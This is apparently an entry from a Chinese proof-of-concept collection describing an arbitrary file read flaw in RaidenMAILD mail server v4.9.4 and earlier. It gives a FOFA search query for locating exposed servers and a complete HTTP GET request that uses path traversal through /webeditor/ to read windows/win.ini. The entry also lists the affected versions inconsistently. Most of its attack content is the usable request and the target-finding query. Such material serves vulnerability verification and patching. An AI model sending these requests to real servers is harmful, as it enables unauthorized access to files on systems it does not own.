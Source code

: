# RaidenMAILD邮件服务器v.4.9.4存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);"> </font>RaidenMAILD是一款稳定、安全、高性能的邮件服务器软件，适用于中小型企业、机构以及个人用户搭建自己的邮件系统。该产品 Raden MAILD Mail Server v.4.9.4及以前版本中存在任意文件读取漏洞，允许远程攻击者通过/webeditor/组件获取敏感信息。

# 二、影响版本
+ RaidenMAILD<4.9.4

# 三、资产测绘
+ fofa`RaidenMAILD Mail Server <= 4.9.4`
+ 特征

![1714229722832-98ad3c87-4222-411f-87e2-5895a002cdd9.png](./img/cToKgwcRMUfI6HSw/1714229722832-98ad3c87-4222-411f-87e2-5895a002cdd9-041666.png)

# 四、漏洞复现
```plain
GET /webeditor/../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Connection: close
```

![1714229752407-c112d773-a048-4c35-afd1-0c96c3a4f6fe.png](./img/cToKgwcRMUfI6HSw/1714229752407-c112d773-a048-4c35-afd1-0c96c3a4f6fe-619548.png)



> 更新: 2024-04-28 16:17:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gyn1em2xgen6fhmc>